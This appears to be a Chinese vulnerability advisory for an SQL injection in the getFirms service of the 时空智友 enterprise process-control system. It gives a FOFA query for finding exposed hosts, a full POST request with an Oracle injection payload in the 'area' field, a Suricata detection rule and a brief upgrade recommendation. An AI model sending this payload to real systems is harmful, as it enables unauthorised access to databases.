

# 时空智友企业流程化管控系统 getFirms存在SQL注入

时空智友企业流程化管控系统 getFirms存在SQL注入

# 影响版本

时空智友企业流程化管控系统

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   **body=&quot;时空智友企业信息管理&quot;**

**POC/EXP：**

**step1**  sql注入

```
POST /formservice?service=indexService.getFirms HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 1098
Content-Type: application/json
Accept-Encoding: gzip

{"area":"%' AND 7740=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5) AND 'mRgX%'='mRgX","industry":"","activities":"","starts":""}
```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"时空智友企业流程化管控系统 - getFirms area SQL注入漏洞 (ALL_USERS子查询)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/formservice"; fast_pattern;
        content:"service=indexService.getFirms"; nocase; distance:0;
    http.content_type; content:"application/json";
    http.request_body;
        content:"|22|area|22|"; nocase;
        content:"SELECT"; nocase; distance:0; within:100;
        content:"COUNT"; nocase; distance:0; within:50;
        content:"ALL_USERS"; nocase; distance:0; within:100;
    metadata:
        service http,
        affected_product "时空智友企业流程化管控系统",
        vulnerability_type "SQL Injection (Oracle)",
        severity "high";
    classtype:web-application-attack;
    sid:1000842;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
